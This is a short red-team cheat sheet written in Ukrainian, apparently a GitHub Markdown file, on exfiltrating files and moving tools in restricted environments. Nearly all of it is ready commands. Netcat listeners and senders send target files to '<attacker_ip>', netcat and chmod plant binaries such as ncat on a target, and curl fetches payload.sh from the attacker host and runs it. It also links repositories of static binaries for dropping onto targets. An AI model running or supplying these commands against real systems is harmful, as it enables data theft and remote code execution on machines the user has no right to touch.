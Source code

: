 
# 🛡️ Exfiltration & Transfer Cheat Sheet (Red Team Edition)

Цей файл містить практичні техніки для ексфільтрації та передачі файлів у Red Team-операціях в умовах обмежених середовищ. Організовано по категоріях із реальними прикладами команд.

---

## 📦 1. Використання Netcat (nc)

### 🔸 Передача файлу з таргета на хост атакуючого:

**На атакуючій машині (отримує файл):**
```bash
nc -lvnp 9000 > received_file
```

**На таргеті (відправляє файл):**
```bash
nc <attacker_ip> 9000 < /path/to/file
```

---

## 📦 2. Завантаження бінарників (Netcat, Nmap, тощо)

### 🔸 Скачування готових утиліт:

**GitHub-репозиторії:**
- https://github.com/andrew-d/static-binaries
- https://github.com/Xhoenix/static-bins
- https://github.com/ernw/static-toolbox

### 🔸 На атакуючій машині (передача утиліти):
```bash
nc -lvnp 9001 < ./ncat
```

### 🔸 На таргеті:
```bash
nc <attacker_ip> 9001 > /tmp/ncat
chmod +x /tmp/ncat
```

---

## 🌐 3. Використання `curl` / `wget`

### 🔸 Завантаження через `curl`:
```bash
curl http://<attacker_ip>/payload.sh --output payload.sh
chmod +x payload.sh
./payload.sh
```
